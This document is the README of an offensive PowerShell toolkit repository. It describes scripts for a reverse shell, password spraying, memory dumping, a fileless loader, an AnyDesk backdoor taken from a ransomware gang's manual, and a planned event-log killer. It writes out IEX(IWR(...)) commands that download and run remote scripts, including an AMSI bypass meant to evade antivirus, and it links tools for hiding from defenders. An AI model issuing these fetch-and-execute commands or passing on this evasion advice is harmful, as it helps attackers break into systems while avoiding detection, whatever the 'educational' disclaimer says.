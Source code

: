 ![logo](https://user-images.githubusercontent.com/69973378/147786741-83944a0f-2ee8-49f7-bdb4-406f0a70ba84.png)

This repo is a collection of minimalist yet effective powershell offensive securities scripts (ie skidware). The goal is to have a very tiny toolkit, enabling a per need basis to allow minimal footprinting (although it is far from perfect and relying only on an AMSI-Bypass will get you caught by EDR once you start doing shady things such as port opening)


# Disclaimer


All these scripts are made available for educational purposes only. Using them without system owners'consent is illegal and will give you a free jail trip.
They are all provided without warranty and they may or may not break things. You are responsible of the scripts you run.

# usage

All the scripts can be used locally but since we're using powershell and we're trying to be sneaky it is probably better to load them from a webserver using the classic IEX(IWR('https://raw.githubusercontent.com/RaouzRouik/smallposh/main/thescriptyouwant.ps1')) or on your very own webserver if you prefer

You should definitely start by invoking:

IEX(IWR('https://raw.githubusercontent.com/RaouzRouik/smallposh/main/amsibp-dec-2021-fud.ps1'))

or else AV/EDR will surely block you right away!

# opsec/evasion

If you want to pull a sneaky on Blue Team/Soc, you should give a look at the following:

paper:

https://s3cur3th1ssh1t.github.io/A-tale-of-EDR-bypass-methods/

tools:

https://github.com/danielbohannon/Invoke-Obfuscation

https://github.com/tokyoneon/Chimera

http://www.powertheshell.com/

https://github.com/klezVirus/inceptor

Of course, for most of the tasks, you don't need to use powershell and you can use signed ms binaries:

https://lolbas-project.github.io/

Also there's a few ways to run powershell without powershell.exe:

https://www.ired.team/offensive-security/code-execution/powershell-without-powershell




# roadmap

Add extra doc on usage/make usage common between scripts

Add a privesc script that will go wmic qfe

Add an eventlogkiller (maybe)




# credits

All credits go to their respective owners:

revshell.ps1:  @TihanyiNorbert based on Nishang Framework

https://github.com/tihanyin/PSSW100AVB

amsibp-dec-2021-fud.ps1: @TihanyiNorbert based on Matt Graeber @mattifestation script

https://github.com/tihanyin/PSSW100AVB

ADspray.ps1, bannergrabber.ps1, smblogin.ps1, portscan-tcp.ps1, portscan-udp.ps1: InfosecMatter 

https://github.com/InfosecMatter/Minimalistic-offensive-security-tools

httpfileserv.ps1: 0v3rride

https://github.com/0v3rride/Simple-PowerShell-HTTP-File-Server

PortFWD.ps1: deepzec

https://github.com/deepzec/Win-PortFwd

minidump.ps1: Matt Graeber @mattifestation

FilelessDotNetLoader.ps1: S3cur3Th1sSh1t

https://github.com/S3cur3Th1sSh1t/Invoke-Sharpcradle

(You should probably give a look at his github, this mans's a powershell beast)


anydesk-backdoor.ps1: Conti Operators Manual (credit is credit)
